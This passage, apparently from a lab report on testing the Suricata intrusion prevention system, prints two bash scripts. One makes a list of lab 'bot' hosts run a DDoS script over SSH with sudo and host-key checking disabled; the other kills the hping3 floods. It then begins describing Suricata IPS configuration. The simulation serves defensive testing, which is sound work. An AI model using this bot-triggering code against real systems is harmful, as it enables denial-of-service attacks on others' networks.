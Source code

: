 \\
The attacker then needs a script to command all bots to execute the file ddos.sh. The file is called "start\_attack.sh".
\begin{lstlisting}[language=bash,caption={Content of start\_attack.sh}]
#!/bin/bash

# List of bots 
BOTS=("bot1@192.168.60.6" "bot2@192.168.76.10")

for BOT in "${BOTS[@]}"
do
    echo "Triggering attack on $BOT..."
    ssh -o StrictHostKeyChecking=no ${BOT} "sudo bash \$HOME/ddos.sh" &
done

echo "All bots triggered!"
\end{lstlisting}
Now we must implement a way to stop the attack. With the SSH key pairs we already created, we will utilize it to kill the process of hping3, thus, will stop the attack.
\begin{lstlisting}[language=bash,caption={Content of stop\_attack.sh}]
#!/bin/bash

# List of bots 
BOTS=("bot1@192.168.60.6" "bot2@192.168.76.10")

for BOT in "${BOTS[@]}"
do
    echo "Stopping attack on $BOT"
    ssh "$BOT" 'pkill -f hping3'
done
\end{lstlisting}
\section{Suricata Configuration}
In order to allow Suricata to run successfully in the Intrusion Prevention System (IPS) mode, it will be essential to set the core parameters properly through the suricata.yaml configuration file. This file controls the Suricata behavior on managing network traffic, interfaces, processing packets, matching rules, and output behavior \cite{lane2024defensive}.
\\
In this section, essential Suricata settings to be applied in project work will be discussed, especially the ones that concern af-packet, NFQUEUE, and IPS mode enable.
